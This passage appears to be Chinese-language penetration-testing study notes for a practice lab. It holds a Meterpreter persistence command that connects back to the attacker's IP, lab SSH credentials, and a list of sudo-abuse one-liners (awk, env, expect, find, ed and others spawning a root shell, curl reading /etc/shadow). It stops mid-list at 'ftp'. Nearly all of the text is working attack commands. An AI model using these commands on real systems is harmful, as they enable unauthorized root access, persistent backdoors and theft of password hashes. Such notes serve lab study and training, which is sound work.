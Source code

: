 run persistence -X -i 10 -p 4321 -r [自己ip] （成功率高）

------

## linux提权

linux靶场用户名密码

bob secret

kali

ssh bob@[目标ip]

密码secret

------

**/bin/bash /bin/sh** **不同的\**\*\*shell\*\**\*界面**

ash 轻量级Shell

**sudo ash**

awk 文本分析工具

**sudo awk ‘BEGIN {system(“/bin/sh”)}’**

bash

**sudo bash**

csh C shell

**sudo csh**

curl

**sudo curl file:///etc/shadow**

dash

**sudo dash**

ed

**sudo ed**

**!/bin/sh**

env

**sudo env /bin/sh**

expect

**sudo expect -c ‘spawn /bin/sh;interact’**

find

**sudo find . -exec /bin/sh ; -quit**

ftp
